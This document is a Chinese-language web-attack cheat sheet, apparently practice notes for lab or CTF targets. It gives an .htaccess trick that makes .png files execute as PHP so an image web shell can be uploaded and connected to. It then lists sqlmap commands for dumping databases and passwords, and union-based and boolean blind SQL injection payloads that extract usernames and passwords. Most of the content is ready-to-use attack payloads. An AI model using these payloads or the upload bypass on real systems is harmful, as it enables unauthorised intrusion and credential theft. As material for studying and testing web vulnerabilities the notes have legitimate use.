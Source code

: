 ```http
AddType application/x-httpd-php .png
```
作用是把`.png`文件解析为`.php`来执行  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241016205817.png)
再上传后缀为`.png`的图片马,成功连接  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241016210046.png)
### SQL注入
#### 整数型注入
python sqlmap.py -r “1.txt”                   #检测注入点是否可用
python sqlmap.py -r “1.txt” --dbs             #爆出该msql中所有数据库名称
python sqlmap.py -r “1.txt” --current-db      #web当前使用的数据库
python sqlmap.py -r “1.txt” --current-user    #web数据库使用账户
python sqlmap.py -r “1.txt” --users           #列出sql所有用户
python sqlmap.py -r “1.txt” --passwords       #数据库账户与密码
python sqlmap.py -r “1.txt” --tbales          #输出所有的表
python sqlmap.py -r “1.txt” -D --tables       #根据数据库名输出所有的表
python sqlmap.py -r “1.txt” -D -T --columns   #爆出字段名(列名)
python sqlmap.py -r “1.txt” -D -T -C”username,realname,password” --dump


#### 有回显位->联合注入:
```sql
?id=1 order by 3--+查看表格一共有几列,逐渐增加3的大小直到报错
?id=-1 union select 1,2,3--+查看表格的哪几列会在页面显示
?id=-1 union select 1,database(),version() --+database查询库名,version查询表名
?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+security为目标库名,查询出的内容为security库下的所有表名
?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+user为目标表名,查询出的内容为user表下的所有字段名
?id=-1 union select 1,2,group_concat(username ,id , password) from users--+user为目标表名,username id password为其下的目标字段名,查询结果为字段下的实际内容。这里加id是因为查询出的username和password无间隔,不好区分
```

#### 回显没有数据,只显示对错->布尔盲注:
布尔盲注主要用到length(),ascii() ,substr()这三个函数，首先通过length()函数确定长度再通过另外两个确定具体字符是什么。布尔盲注向对于联合注入来说需要花费大量时间。  
>ascii码尝试范围32~127
```sql
?id=1''and length((select database()))>9--+  
--+大于号可以换成小于号或者等于号，主要是判断数据库的长度。lenfth()是获取当前数据库名的长度。如果数据库是haha那么length()就是4
?id=1''and ascii(substr((select database()),1,1))=115--+
--+substr("78909",1,1)=7 substr(a,b,c)a是要截取的字符串，b是截取的位置，c是截取的长度。布尔盲注我们都是长度为1因为我们要一个个判断字符。ascii()是将截取的字符转换成对应的ascii吗，这样我们可以很好确定数字根据数字找到对应的字符。
 
?id=1''and length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>13--+
--+判断所有表名字符长度。
?id=1''and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>99--+
--+逐一判断表名
 
?id=1''and length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))>20--+
--+判断所有字段名的长度
?id=1''and ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))>99--+
--+逐一判断字段名。
 

?id=1'' and length((select group_concat(username,password) from users))>109--+
--+判断字段内容长度
?id=1'' and ascii(substr((select group_concat(username,password) from users),1,1))>50--+
--+逐一检测内容。
```